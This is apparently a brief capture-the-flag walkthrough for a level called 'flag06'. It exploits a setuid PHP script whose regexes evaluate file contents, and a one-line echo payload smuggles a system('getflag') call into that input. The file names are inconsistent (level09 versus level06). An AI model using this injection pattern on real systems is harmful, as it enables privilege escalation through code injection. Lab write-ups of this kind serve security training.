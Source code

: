 # flag06

The home directory contains 2 files:
- a `level09.php` php file
- a `level09` suid executable of `level09.php`


`level09.php` is a series of regex that modify and try to interpret the contents of the given file

after some fiddling around, we got to this command:
`echo '[x ${@system('getflag')}]' > /run/shm/wow; ./level06 /run/shm/wow`

which puts up an error and interprets our `system('getflag')` and prints the level flag, we can now login as `level07`